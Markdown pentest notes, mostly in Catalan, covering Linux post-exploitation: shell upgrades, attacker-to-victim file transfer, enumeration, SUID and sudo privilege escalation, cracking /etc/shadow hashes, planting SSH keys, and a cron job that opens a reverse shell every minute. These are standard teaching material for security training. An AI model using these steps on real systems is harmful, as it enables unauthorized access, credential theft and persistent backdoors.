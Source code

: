 ## Utilities
##### Tractament de la TTY
```bash
# Bash
1. script /dev/null -c bash
#Python
1. python -c 'import pty; pty.spawn("/bin/bash")'

2. [Ctrl+Z] stty raw -echo; fg
3. reset xterm
4. export TERM=xterm
5. export SHELL=bash
6. stty rows [x] columns [y]
```
##### Transferència de fitxers
```bash
python3 -m http.server [port] # Atacant
wget [url] -O [output] # Víctima
```
## Local enumeration
--> **Hostname, distribution, release version, kernel, arch, cpu, disk, mounts, packages**
```
uname -a
env
lscpu
df -h
dpkg -l
```
--> **Users, groups, current user, privileges**
```
whoami
groups [user]
cat /etc/passwd | grep 'sh$'
lastlog
```
--> **IP, network adapter, internal network, TCP/UDP services, other hosts**
```
ip a
cat /etc/resolv.conf
ip neighbour
route
```
--> **Running services, cron jobs**
```
ps aux | grep [user]
top
crontab -l
ls -la /etc/cron*
cat /etc/cron*
```
> Es pot automatitzar a través de [LinEnum](https://github.com/rebootuser/LinEnum) o [LinPEAS](https://github.com/peass-ng/PEASS-ng/tree/master/linPEAS).
## Privilege escalation
##### Cron Jobs
Són scripts que s'executen de forma automàtica cada període de temps assignat, que pot anar des d'un cop per minut fins un cop al mes, i amb els permisos de l'usuari que l'ha creat. Poden ser vulnerables a escalat de privilegis si:
1. Els ha creat un usuari privilegiat.
2. Són editables/vulnerable o criden un script que és editable/vulnerable.
Els Cron Jobs tenen la següent estructura:
```
* * * * * [command]
|  | | | |______ Dia de la setmana
|  | | |__________ Mes
|  | |_________________ Dia del mes
|  |______________________ Hora
|___________________________ Minut
``` 
##### SUID Binaries
Els bits SUID d'un binari són un tipus de permisos que es poden atorgar als arxius per a que s'executin sempre amb els privilegis del propietari i no de l'usuari actual. Estan representats als permisos amb una lletra "S". Alguns programes propietat de root tenen el bit SUID per defecte però no són vulnerables, com _ping_ o _chsh_. Per saber si un binari és vulnerable es pot consultar a [GTFOBins](https://gtfobins.github.io/).
Es poden trobar tots els binaris amb SUID:
```bash
find / -perm -4000 -type f -exec ls -la {} 2>/dev/null
find / -uid 0 -perm -4000 -type f 2>/dev/null # propietat de root
```
##### Abusing Sudo
_Sudo_ (Super User DO), és una comanda de Linux que permet executar una comanda amb permisos de root. Per a poder utilitzar-la, fa falta que l'usuari estigui dins de l'arxiu _/etc/sudoers_, i pot ser que només tingui permisos per executar alguna comanda específica. De nou, es pot consultar si una comanda és vulnerable a [GTFOBins](https://gtfobins.github.io/).
Per veure quins permisos de sudo té l'usuari actual s'ha de fer:
```bash
sudo -l
```
##### Kernel exploits
Al llarg de les versions del kernel de Linux s'han trobat vulnerabilitats que permeten escalar privilegis. L'enumeració amb [LinPEAS](https://github.com/peass-ng/PEASS-ng/tree/master/linPEAS) fa una comprovació de les principals vulnerabilitats (com DirtyCow o Pkexec) i reporta si són explotables o no.

> La Santa Bíblia del PrivEsc a Linux: [Linux PrivEsc](https://swisskyrepo.github.io/InternalAllTheThings/redteam/escalation/linux-privilege-escalation/).
## Persistence
##### Dumping hashes
L'arxiu _/etc/shadow_, només accessible amb permisos de root, conté els hashes de les credencials dels usuaris. Si s'aconsegueixen aquests hashes, es poden ficar en un arxiu i crackejar amb Hashcat.
```bash
hasid -m [hash] # saber quin tipus de hash és i el id de hashcat
hashcat -a 0 -m [id] -w [wordlist] [hashes_file]
```
##### SSH Keys
L'autenticació per clau de SSH és asimètrica, és a dir, funciona amb un parell de claus relacionades on una és pública i serveix per encriptar, i l'altra és privada i serveix per desencriptar i accedir al host remot. N'hi ha amb diferents tipus d'encriptació, tot i que la més típica és la RSA. 

Tenint la clau privada d'un usuari és possible autenticar-se com aquest, i amb permisos d'escriptura és possible afegir un parell de claus propi al directori ssh de l'usuari: _~/.ssh/authorized_keys_.

**Autenticació amb clau privada**
```bash
ssh -i [ssh_private_key] [user]@[host] 
```

**Generació d'un nou parell de claus**
```bash
# Atacant
ssh-keygen -t rsa -b 4096 # demanarà on guardar-les i amb quin nom
chmod 600 [ssh-key]

# Víctima
> Copiar la clau pública al authorized_keys
```
##### Cron Jobs
Es pot crear un Cron Job que, amb la freqüència que designem, intenti establir una reverse shell al nostre host per a poder-nos connectar quan ho desitgem.
```bash
echo "* * * * * [revese shell]" > [file] # Cada minut
crontab -i [file]
```

> La Santa Bíblia de la persistència a Linux: [Linux Persistence](https://swisskyrepo.github.io/InternalAllTheThings/redteam/persistence/linux-persistence/).
